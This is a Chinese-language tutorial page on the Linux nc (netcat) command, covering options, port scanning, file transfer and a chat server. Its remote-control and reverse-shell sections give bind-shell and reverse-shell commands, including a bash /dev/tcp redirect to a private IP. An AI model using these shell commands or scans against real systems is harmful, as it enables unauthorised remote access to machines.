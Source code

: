 # nc

　　**nc命令** 全称**netcat**，用于TCP、UDP或unix域套接字(uds)的数据流操作，它可以打开TCP连接，发送UDP数据包，监听任意TCP 和UDP端口，同时也可用作做端口扫描，支持IPv4和IPv6，与Telnet的不同在于nc可以编写脚本。

### 语法

```shell
nc [-hlnruz][-g<网关...>][-G<指向器数目>][-i<延迟秒数>][-o<输出文件>][-p<通信端口>]
[-s<来源位址>][-v...][-w<超时秒数>][主机名称][通信端口...]
```

### 选项

```bash
-4 使用 IPv4
-6 使用 IPv6
-b 允许广播
-C 发送 CRLF 作为行结束符
-D 启用调试套接字选项
-d 从 stdin 分离
-F 传递套接字 fd
-h 此帮助文本
-I length TCP 接收缓冲区长度
-i interval 发送行、扫描端口的延迟间隔
-k 保持入站套接字打开以进行多个连接
-l 监听模式，用于入站连接
-M ttl 传出 TTL/跳数限制
-m minttl 最小传入 TTL/跳数限制
-N 在 stdin 上的 EOF 后关闭网络套接字
-n 抑制名称/端口解析
-O length TCP 发送缓冲区长度
-P proxyuser 代理身份验证的用户名
-p port 指定远程连接的本地端口
-q secs 在 stdin 上的 EOF 后退出并延迟 secs
-r 随机化远程端口
-S 启用 TCP MD5 签名选项
-s sourceaddr 本地源地址
-T keyword TOS 值
-t 答案TELNET 协商
-U 使用 UNIX 域套接字
-u UDP 模式
-V rtable 指定备用路由表
-v 详细
-W recvlimit 收到一定数量的数据包后终止
-w timeout 连接和最终网络读取的超时
-X proto 代理协议：“4”、“5”（SOCKS）或“connect”
-x addr[:port] 指定代理地址和端口
-Z DCCP 模式
-z 零 I/O 模式 [用于扫描]
```

### 实例

```bash
# 开启一个端口，比如用作端口转发
nc -lk 9876  &
```

#### **TCP端口扫描**

```bash
# 扫描192.168.0.3 的端口 范围是 1-100
[root@localhost ~]# nc -v -z -w2 192.168.0.3 1-100 
192.168.0.3: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.0.3] 80 (http) open
(UNKNOWN) [192.168.0.3] 23 (telnet) open
(UNKNOWN) [192.168.0.3] 22 (ssh) open

# **扫描UDP端口** 扫描192.168.0.3 的端口 范围是 1-1000
[root@localhost ~]# nc -u -z -w2 192.168.0.3 1-1000  
```

　　‍

#### **扫描指定端口**

```bash
[root@localhost ~]# nc -nvv 192.168.0.1 80 # 扫描 80端口
(UNKNOWN) [192.168.0.1] 80 (?) open
y  //用户输入
```

　　查看从服务器到目的地的出站端口 443 是否被防火墙阻止

```bash
nc -vz acme-v02.api.letsencrypt.org 443 -w2
# Ncat: Version 7.50 ( https://nmap.org/ncat )
# Ncat: Connected to 23.77.214.183:443.
# Ncat: 0 bytes sent, 0 bytes received in 0.07 seconds.
```

#### **文件传输**

```bash
# 接收方提前设置监听端口与要接收的文件名（文件名可自定义）：
nc -lp 8888 > node.tar.gz

# 传输方发文件：
nc -nv 192.168.75.121 8888  < node_exporter-1.3.1.linux-amd64.tar.gz
# ⚠️ 注意：192.168.75.121是接收方的ip地址。
```

```bash
# 如果希望文件传输结束后自动退出，可以使用下面的命令：
nc -lp 8888 > node.tar.gz
nc -nv 192.168.75.121 8888 -i 1 < node_exporter-1.3.1.linux-amd64.tar.gz
# ⚠️ 注意：-i 表示闲置超时时间
```

#### **远程控制**

```bash
# 正向控制，被控端主动设置监听端口及bash环境，控制端连接，如果有防火墙，需开放端口，否则会被拦截。
# 被控制端执行下面的命令：
nc -lvnp 8888 -c bash
# 控制端执行下面的命令：
nc 192.168.75.121 8888
```

```bash
# 反向控制，控制端设置监听端口，被控端主动连接控制端的ip及端口，并提供bash环境。
# 控制端执行下面的命令：
nc -lvnp 8888
# 被控制端执行下面的命令：
nc 192.168.75.121 8888 -c bash
```

#### **反弹shell**

```bash
# 控制端执行下面的命令：
nc -lvnp 8888
```

```bash
# 被控端执行下面的命令:
bash -i &> /dev/tcp/192.168.75.121/8888 0>&1
```

#### 创建一个简单的聊天服务器

　　在两个或多个主机之间创建在线聊天的过程与传输文件的方法是基本相同的。

　　在第一台主机上启动一个 Netcat 进程以侦听端口 5555：

```bash
nc -l 5555
```

　　在第二台主机上，运行以下命令以连接到侦听端口：

```bash
nc first.host.com 5555
```

　　现在，如果你键入一条消息并按回车，它将同时显示在两台主机上。

　　要关闭连接，请键入 `CTRL+C`​。
